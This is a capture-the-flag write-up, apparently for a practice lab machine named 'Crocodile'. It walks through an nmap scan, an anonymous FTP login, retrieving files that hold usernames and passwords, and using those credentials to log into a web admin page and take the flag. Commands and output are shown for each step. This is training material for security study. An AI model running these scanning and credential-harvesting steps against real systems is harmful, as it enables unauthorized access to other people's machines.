![Crocodile.jpg](/assets/crocodile.jpg)

1. Send an ICMP echo request to machine's IP address..
```bash
┌──(kali㉿kali)-[~]
└─$ ping -c 2 10.129.1.15
```

2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.129.1.15
```

**Output**
```bash
PORT   STATE SERVICE
21/tcp open  ftp
80/tcp open  http
```

3. Web Page and **login.php**
![Crocodile-web.PNG](/assets/crocodile-web.PNG)
![Crocodile-login.PNG](/assets/crocodile-login.PNG)


4. Connect to **ftp** and put **anonymous** how user.
```bash
┌──(root㉿est)-[/home/kali]
└─| ftp 10.129.1.15
Connected to 10.129.1.15.
220 (vsFTPd 3.0.3)
Name (10.129.1.15:kali): anonymous
230 Login successful.
```

5. Show all files
```bash
ftp> dir
229 Entering Extended Passive Mode (|||48217|)
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
226 Directory send OK.
```

6. Get all files and show the content
```bash
ftp> get allowed.userlist.passwd
ftp> get allowed.userlist
```
---
```bash
┌──(root㉿est)-[/home/kali]
└─| cat allowed.userlist
aron
pwnmeow
egotisticalsw
admin
                                                                     
┌──(root㉿est)-[/home/kali]
└─| cat allowed.userlist.passwd 
root
Supersecretpassword1
@BaASD&9032123sADS
rKXM59ESxesUFHAd
```

7. Try to login in **login.php**
```
user: admin
password: rKXM59ESxesUFHAd
```
  
![Crocodile-login2.PNG](/assets/crocodile-login2.PNG)

8. **BOOM** Obtain the flag
![Crodile-flag.PNG](/assets/crocodile-flag.PNG)


**By: EsT**